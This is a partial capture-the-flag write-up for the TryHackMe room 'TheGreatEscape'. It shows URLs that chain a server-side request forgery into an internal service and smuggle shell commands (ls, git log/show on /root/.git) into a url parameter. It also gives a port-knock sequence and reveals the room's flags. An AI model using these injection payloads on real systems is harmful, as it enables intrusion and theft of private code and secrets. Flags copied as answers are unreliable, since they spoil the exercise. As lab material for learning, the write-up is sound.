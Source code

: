 # Room: [TheGreatEscape](https://tryhackme.com/room/thegreatescape)


:warning: Work in progress :warning:

## Basic enum:

the `robots.txt` gives us  http://10.10.204.152/exif-util/

=> http://escape.thm/exif-util.bak.txt ...

```bash
Fascinant! http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-lrtah

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;ls%20-larth%20/root/.git

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20log

http://escape.thm/api/exif?url=http://api-dev-backup:8080/exif?url=curl%20--help;git%20--git-dir%20/root/.git%20show%20a3d30a7d0510dc6565ff9316e3fb84434916dee8
```
Ok so at least we have:

```bash
commit a3d30a7d0510dc6565ff9316e3fb84434916dee8
Author: Hydra <hydragyrum@example.com>
Date:   Wed Jan 6 20:51:39 2021 +0000

    Added the flag and dev notes

diff --git a/dev-note.txt b/dev-note.txt
new file mode 100644
index 0000000..89dcd01
--- /dev/null
+++ b/dev-note.txt
@@ -0,0 +1,9 @@
+Hey guys,
+
+I got tired of losing the ssh key all the time so I setup a way to open up the docker for remote admin.
+
+Just knock on ports 42, 1337, 10420, 6969, and 63000 to open the docker tcp port.
+
+Cheers,
+
+Hydra
\ No newline at end of file
diff --git a/flag.txt b/flag.txt
new file mode 100644
index 0000000..aae8129
--- /dev/null
+++ b/flag.txt
@@ -0,0 +1,3 @@
+You found the root flag, or did you?
+
+THM{0cb4b947[Redcated]b75a10876}
\ No newline at end of file
```


<details>
  <summary>Click to reveal the user flag</summary>
  
  ```bash
    THM{0cb4b947043cb5c0486a454b75a10876}
  ```
</details>


```bash
# cd .well-known
# ls
security.txt
# cat security.txt
Hey you found me!

The security.txt file is made to help security researchers and ethical hackers to contact the company about security issues.

See https://securitytxt.org/ for more information.

Ping /api/fl46 with a HEAD request for a nifty treat.
```

Ok fair enough :nerd_face:

```
root@X-X-X-X:~# curl -IXHEAD http://plop.thm/api/fl46
HTTP/1.1 200 OK
Server: nginx/1.19.6
Date: Sat, 17 Jul 2021 19:42:15 GMT
Connection: keep-alive
flag: THM{b801135[Redcated]a44c2e5ad4}
```

<details>
  <summary>Click to reveal the root flag</summary>
  
  ```bash
    THM{b801135794bf1ed3a2aafaa44c2e5ad4}
  ```
</details>

